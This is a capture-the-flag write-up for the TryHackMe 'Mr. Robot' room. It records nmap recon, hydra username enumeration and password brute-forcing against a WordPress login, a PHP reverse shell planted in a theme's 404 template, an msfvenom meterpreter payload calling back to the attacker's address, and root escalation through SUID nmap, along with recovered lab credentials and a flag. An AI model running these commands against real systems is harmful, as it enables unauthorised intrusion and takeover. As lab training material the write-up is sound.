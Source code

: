 # Mr. Robot

## Preparation

Added IP to /etc/hosts as "robot"

## Recon

Doing this one inside of MSF
```
sudo msfdb run
workspace -a tryhackme-mr-robot
workspace tryhackme-mr-robot 
db_nmap -v -p- -T4 robot
...
[*] Nmap: 22/tcp  closed ssh
[*] Nmap: 80/tcp  open   http
[*] Nmap: 443/tcp open   https
```

```
db_nmap -v -p 22,80,443 -sT -A robot
...
[*] Nmap: Aggressive OS guesses: HP P2000 G3 NAS device (93%), DD-WRT v24 or v30 (Linux 3.10) (90%), Linux 3.10 - 4.1
1 (90%), Linux 3.4 (90%), Linux 3.5 (90%), Linux 4.1 (90%), Linux 4.4 (90%), Asus RT-AC66U WAP (90%), Crestron XPanel
 control system (89%), Linux 3.10 (88%)
```

Looks like an embedded Linux device running a web server

```
 msf5 > hosts

Hosts
=====

address        mac  name   os_name   os_flavor  os_sp  purpose  info  comments
-------        ---  ----   -------   ---------  -----  -------  ----  --------
10.10.175.108       robot  embedded                    device         

msf5 > services 
Services
========

host           port  proto  name     state   info
----           ----  -----  ----     -----   ----
10.10.175.108  22    tcp    ssh      closed  
10.10.175.108  80    tcp    http     open    Apache httpd
10.10.175.108  443   tcp    ssl/ssl  open    Apache httpd SSL-only mode
```

Running gobuster
```
use auxiliary/scanner/http/dir_scanner
setg RHOSTS robot
set DICTIONARY /usr/share/seclists/Discovery/Web-Content/big.txt
```

Visiting the website manually and poking around.

http://robot/robots.txt
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

http://robot/key-1-of-3.txt
"073403c8a58a1f80d943455fb30724b9"

Downloading http://robot/fsocity.dic
```
wget http://robot/fsocity.dic
```

It is a dictionary with some duplicates, removing duplicates.
```
cat fsocity.dic | wc -l
858160
cat fsocity.dic | sort -u | wc -l
11451
sort -uo fsocity.dic fsocity.dic
cat fsocity.dic | wc -l
11451
```

MSF found an RSS feed file
```
[+] Found http://10.10.175.108:80/feed/ 200 (10.10.175.108)*
```

Which contains the following contents
```
<?xml version="1.0" encoding="UTF-8"?><rss version="2.0"
        xmlns:content="http://purl.org/rss/1.0/modules/content/"
        xmlns:wfw="http://wellformedweb.org/CommentAPI/"
        xmlns:dc="http://purl.org/dc/elements/1.1/"
        xmlns:atom="http://www.w3.org/2005/Atom"
        xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
        xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
        >

<channel>
        <title>user&#039;s Blog!</title>
        <atom:link href="http://robot/feed/" rel="self" type="application/rss+xml" />
        <link>http://robot</link>
        <description>Just another WordPress site</description>
        <lastBuildDate></lastBuildDate>
        <language>en-US</language>
        <sy:updatePeriod>hourly</sy:updatePeriod>
        <sy:updateFrequency>1</sy:updateFrequency>
        <generator>http://wordpress.org/?v=4.3.1</generator>
</channel>
</rss>
```

Wordpress 4.3.1

http://robot/wp-login/index.php

It tells you when the username is wrong, enumerating usernames with the dictionary that was provided
```
hydra -L ctp/fsocity.dic -p tmp robot http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid'
...
[80][http-post-form] host: robot   login: elliot   password: tmp
[80][http-post-form] host: robot   login: ELLIOT   password: tmp
[80][http-post-form] host: robot   login: Elliot   password: tmp*
```

elliot is a valid username (not case sensitive)

Bruteforcing password with the same dictionary
```
hydra -l elliot -P ctp/fsocity.dic robot http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect'
...
[80][http-post-form] host: robot   login: elliot   password: ER28-0652
```

wordpress:elliot:ER28-0652

Logged into wordpress site

"WordPress 4.3.1 running Twenty Fifteen theme."

We can upload documents at *http://robot/wp-admin/upload.php*, seeing if I can upload a web shell.
```
python3 shellclip.py --lhost 10.2.14.14 --lport 53 -c php
```

Cannot upload, tried phtml, php[3-5], .inc, .php.jpg, and .jpg.php

Tried exploiting a blog post with php injection, it doesn't work. We can edit the template for a 404 error! Puting in PHP reverse shell code.

Got a shell! Re-exploiting and using a meterpreter payload.

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.14.14 LPORT=53 -f raw -o rev.php
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
setg LHOST 10.2.14.14
set LPORT 53
exploit
```

Password hash in /home/robot

"robot:c3fcd3d76192e4007dfb496cca67e13b"

Used crackstation, the originating value is *abcdefghijklmnopqrstuvwxyz*

Configuring linper on 5253

robot can't sudo, looking for suid's

```
find / $(pwd) -perm /4000 2> /dev/null
...
/usr/local/bin/nmap
```
Nmap scripts use Lua and you can get a shell with Lua

This one does not have NSE but does have an interactive option

```
nmap --interactive
! /bin/bash -p
```